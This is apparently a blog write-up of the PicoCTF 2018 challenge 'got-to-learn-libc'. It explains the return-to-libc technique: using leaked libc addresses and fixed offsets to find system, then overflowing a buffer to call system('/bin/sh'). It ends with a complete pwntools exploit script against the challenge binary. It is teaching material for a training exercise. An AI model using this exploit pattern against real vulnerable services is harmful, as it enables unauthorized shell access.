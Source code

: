 ```yaml
---
layout: post
title: Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018
categories: [general, CTFs]
tags: [CTFs, picoCTF2018]
fullview: true
comments: true
---
```



# Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018


So this challenge was a great introduction for the concept of ret-2-libc.
As we run the binary we were given a several addresses from libc, that may be really  useful in our exploit.
> Here are some useful addresses:
> 
> puts: 0xf7e2bb40
>
> fflush 0xf7e29cb0
>
> read: 0xf7eaacb0
>
> write: 0xf7eaad80
>
> useful_string: 0x56575030

*Keep in mind that this addresses are random when running the binary on  the remote server due to ASLR.

So apparently we get the addresses of some functions that can be found in libc, as well as an address of a "useful_string".
By examine the binary with GDB we can view the content of this particular address, and we found out that it points to the following string

>  gdb-peda$ x/s 0x56557030
>
> 0x56557030 <**useful_string**>: "/bin/sh"

Knowing that our goal is getting a shell, having the address of `"/bin/sh"` is very useful. Basically our goal is to find a way to call `system` with `"/bin/sh"`, as it will result with a shell on the remote server, and the ability to view the content of flag.txt.

# So what is actually the "ret-2-libc" technique? 
Simply put, "return-to-libc" allows us to bypass protections like NX on the stack which defeat execution from stack. So even if we have a buffer-overflow (And we do have one in this challenge), we can't just write our shell-code to the stack and overwrite the return address to jump back to it and execute the shell-code, because the stack is protected.
What we can do, however, is to use the fact we have a buffer overflow to create a fake function stack frame, consisting of the address of a function that is already loaded into the process' memory (`system`) and give it an appropriate argument (in this case, the address of `"/bin/sh"`).

* You may check the following article to get a better grip and knowledge about ret-2-libc - [Return-to-libc - ExploitDB](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) 


So the stack should look like this:

|Before|
|---|
|**Lower Memory Address**|
|Real Return Address|
|something|
|something|
|**Higher Memory Address**|


|After |
|---|
|**Lower Memory Address**|
|System's Address|
|Fake Return Address |
|"/bin/sh" Address|
|**Higher Memory Address**|

Notice that we use a fake return address because when a function is called the arguments are pushed first, and than the return address is pushed as well.


# Getting the address of system 
It's about time we'll take advantage of the functions' address we got.
Basically, we only need an libc address of one function.
As I mentioned earlier there is a possibility  we have an ASLR protection on the remote server so the address of `system` is different each time, but the difference between the address of another libc function (`puts` for example) and the address of `system` is always the same - offsets don't change.

Since we have access to libc in the path `lib/i386-linux-gnu/libc.so.6`we can use `readelf` to get the offset of puts from the `libc base address` and than adding to that address the offset of `system` which will give us the long-awaited address of `system`.
So `readelf -s lib/i386-linux-gnu/libc.so.6 | grep puts` gave us the offset `0x5f140`, and `readelf -s lib/i386-linux-gnu/libc.so.6 | grep system` gave us the offset 0x3a940. 

# The script
```python
from pwn import *

addresses = {}
SYSTEM_OFFSET = 0x3a940
PUTS_OFFSET = 0x5f140

def get_useful_addresses():
	r.recvline()
	r.recvline()
	add = r.recvuntil("Enter")
	for address in add.split("\n"): 
		if address != "" and address != "Enter" and ":" in address:
			addresses[address.split(": ")[0]] = address.split(": ")[1] 

def handle_logic():
	get_useful_addresses()
	r.recvuntil("ring:")
	libc_base_address = hex((int(addresses['puts'], 16) - PUTS_OFFSET))
	system_libc_address = hex(int(libc_base_address, 16) + SYSTEM_OFFSET)
	print ("libc base address - " + libc_base_address)
	print ("system libc address - " + system_libc_address)
	payload = "A"*160
	payload += p32(int(system_libc_address, 16))
	payload += p32(int("0xdeadbeef", 16)) 
	payload += p32(int(addresses['useful_string'],16))
	r.sendline(payload)
	

if __name__ == "__main__":
	r = process(['./vuln'])
	handle_logic()
	r.interactive()
```

